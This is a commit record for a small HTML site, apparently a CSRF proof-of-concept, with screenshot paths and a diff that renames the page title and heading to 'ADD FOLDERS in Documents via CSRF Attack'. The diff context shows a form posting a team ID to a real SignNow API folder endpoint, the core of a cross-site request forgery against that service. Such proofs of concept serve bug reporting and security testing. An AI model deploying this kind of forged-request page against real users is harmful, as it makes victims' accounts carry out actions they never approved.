

Before and after one commit to cybersagor/EnableFolderCSRF, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>CSRF to Enable Documents Folder</title>
+  <title>CSRF</title>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -45,7 +45,7 @@
 </head>
 <body>
   <div class="container">
-    <h2>CSRF to Enable Documents Folder</h2>
+    <h2>ADD FOLDERS in Documents via CSRF Attack</h2>
     <!-- Form that sends POST request -->
     <form id="teamIDForm" action="https://app.signnow.com/api/team/f10474f3c4074deca43f99cef7fd1cd02f64107c/shared/document/folder" method="POST">
       <label for="teamID">Enter Team ID:</label><br>
```
